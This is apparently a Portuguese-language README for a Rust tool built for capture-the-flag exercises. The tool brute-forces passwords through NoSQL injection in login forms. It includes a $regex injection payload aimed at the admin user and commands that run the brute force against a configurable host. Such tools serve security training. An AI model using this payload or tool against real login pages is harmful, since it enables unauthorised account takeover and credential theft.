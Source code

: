 # NoSQL Password Checker

Uma ferramenta para CTF que explora vulnerabilidades NoSQL Injection para descobrir senhas em aplicações web.

## Sobre

Esta ferramenta automatiza o processo de exploração de vulnerabilidades de injeção NoSQL em formulários de login. Ela usa técnicas de regex para determinar o tamanho da senha e, em seguida, encontra cada caractere através de um processo de força bruta.

## Funcionalidades

- Teste de requisições HTTP com configurações personalizáveis
- Descoberta automática do tamanho da senha
- Brute force de senhas através de NoSQL Injection
- Suporte para diferentes tipos de payloads (form, json, raw)

## Instalação

```bash
# Clone o repositório
git clone https://github.com/seu-usuario/nosql_password_checker.git
cd nosql_password_checker

# Compile o projeto
cargo build --release
```

## Uso

### Configuração

Edite o arquivo `config/default.toml` para configurar:
- Host, protocolo e caminho alvo
- Método HTTP e headers
- Payload com a vulnerabilidade NoSQL
- Padrões de resposta para sucesso/erro

### Exemplo de Payload

```
user=admin&pass[$regex]=^.{11}$&remember=on
```

### Comandos

```bash
# Fazer uma requisição simples
./nosql_password_checker request

# Descobrir uma senha através de brute force
./nosql_password_checker bruteforce

# Usar um host diferente
./nosql_password_checker bruteforce -H exemplo.com

# Ver ajuda
./nosql_password_checker --help
```

## Dependências

- Rust 2024 ou superior
- reqwest, regex, clap e outras bibliotecas (veja Cargo.toml)
